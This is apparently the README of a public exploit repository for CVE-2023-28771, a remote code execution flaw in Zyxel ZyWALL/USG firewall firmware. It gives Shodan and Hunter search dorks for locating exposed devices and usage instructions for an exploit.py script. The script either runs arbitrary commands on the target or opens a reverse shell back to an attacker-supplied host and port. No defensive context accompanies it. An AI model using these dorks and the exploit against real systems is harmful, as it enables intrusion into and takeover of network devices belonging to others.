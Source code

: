 # CVE-2023-28771
![](https://img.shields.io/static/v1?label=Product&message=Zyxel&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=ZyWALL/USG%20series%20firmware%20versions%204.60%20through%204.73&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Remote%20Code%20Execution&color=red)



- Shodan dork:
```
/ext-js/app/common/zld_product_spec.js
```
- [Hunter](https://hunter.how) dork:
```
web.body="/ext-js/app/common/zld_product_spec.js"
```


## Install
Requires the scapy Python library for sending IKE packets.

```
pip install -r requirements.txt

```
```
usage: exploit.py [-h] [--cmd CMD] [--lhost LHOST] [--lport LPORT] rhost

positional arguments:
  rhost

options:
  -h, --help     show this help message and exit
  --cmd CMD
  --lhost LHOST
  --lport LPORT
```

Either use --cmd to run an arbitrary command, or use --lport and --lhost to spawn a revshell
